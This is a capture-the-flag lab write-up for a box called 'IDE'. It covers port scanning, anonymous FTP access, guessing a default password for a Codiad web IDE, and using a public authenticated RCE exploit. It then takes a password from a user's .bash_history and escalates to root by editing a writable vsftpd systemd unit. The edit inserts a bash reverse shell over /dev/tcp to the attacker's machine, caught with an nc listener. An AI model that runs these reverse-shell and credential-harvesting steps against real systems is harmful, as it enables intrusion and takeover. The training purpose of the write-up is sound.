




### 1
## IDE

- An easy box to polish your enumeration skills!
- Gain a shell on the box and escalate your privileges!
- The goal is to find out what is inside "user.txt" and "root.txt"

1. The first thing I did was a port scan to find out which ports were open. The command below also finds the service running on each port. My mistake was that I only scanned the first 1000 ports (I actually used no options for nmap), so I missed the open ports above this number. A better approach is to use this command:

   `sudo nmap -p- -sV [target-ip-address]`

   Results:
   ```
   PORT      STATE SERVICE VERSION
   21/tcp    open  ftp     vsftpd 3.0.3
   22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
   80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
   62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
   Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
   ```

2. This is different from the steps I took to solve this lab, but I think explaining it this way is better. If you visit `[target-ip-address]:62337` you'll see a page with a login form like this:

   

- What is Codiad? It's a web-based IDE - think of it like VS Code, but the difference is you have to have VS Code installed on your computer to edit and write code. With Codiad, you can access it from anywhere using login credentials (as you see in the screenshot) and write/edit the code you and your team are working on.

- What happens if we search for Codiad 2.8.4? We'll find a written exploit on Exploit DB for it: Codiad 2.8.4 - **Remote Code Execution (Authenticated)**
- Looking at the name of the challenge, this is probably the exploit we should use. This script gets a reverse shell for us, but the problem is we need to find valid username and password first **(Authenticated)**

3. FTP - Finding John and Drac: We found a login page in the previous step. Now let's see what we can find using FTP. I entered `ftp [target-ip-address] 21` and used "ftp" as both username and password, and I could log in! This works because FTP can have a type of authentication called "**Anonymous Authentication**", it was enabled in this case.

   If we use `ls -la` here, we can see a directory named `...`. If we navigate to that and see what's inside, we'll find a file named `-`. We downloaded the file using `get [file-name]` and opened it on our computer:

   

- As you can see, the contents inside the file tell us that we have at least 2 usernames: john and drac. We also know that john uses default passwords to log in.

- Back to the Codiad login page, if we test "john" as username and try some common passwords, we find that we can log in using `john` as username and `password` as password.
  
- Now that we have valid credentials, we can use the exploit we found to get a reverse shell: **Codiad 2.8.4 - Remote Code Execution (Authenticated)**
- After getting a reverse shell, I used `find / -name user.txt 2>/dev/null` to find the path for `user.txt`: `/home/drac/user.txt`, but only **drac** can read it:

   
   
- We need to become drac. As you can see in the screenshot, there's a file named **.bash_history**:
       - This file contains a list of Bash commands recently run by the user.
       - We can find drac's password in his .bash_history file. He tried to access a database manager software and included his password directly in the command.
       - We can use this password to log in as drac using SSH, after which we'll be able to read `user.txt`
    ```
    www-data@ide:/home/drac$ cat .bash_history
    cat .bash_history
    mysql -u drac -p 'Th3dRaCULa1sR3aL'
    ```

4. Where is root.txt? As the name suggests, we need to become root. Now we are drac. Running `sudo -l` shows what drac can do as root: the -l(list) option lists the allowed (and forbidden) commands for the invoking user.

   

- User drac can run this command as ANY user (including root) without a password: `sudo /usr/sbin/service vsftpd restart`
- I used `systemctl status vsftpd` --> from here we found the vsftpd path: **/lib/systemd/system/vsftpd.service**
   ```
   drac@ide:~$ cat /lib/systemd/system/vsftpd.service
    [Unit]
    Description=vsftpd FTP server
    After=network.target

    [Service]
    Type=simple
    ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
    ExecReload=/bin/kill -HUP $MAINPID
    ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

    [Install]
    WantedBy=multi-user.target
   ```
- Drac can write to this file
- We change the file to get a reverse shell:
 ```
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/attack-box(our-ip)/port(eg:9001) 0>&1'       ## here we make our change
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```
- On our computer we run: `nc -lvnp 9001`
- Then we go to our SSH session as drac and restart vsftpd: `sudo /usr/sbin/service vsftpd restart`
- `systemctl daemon-reload`
- Again: `sudo /usr/sbin/service vsftpd restart`
- We get root privileges
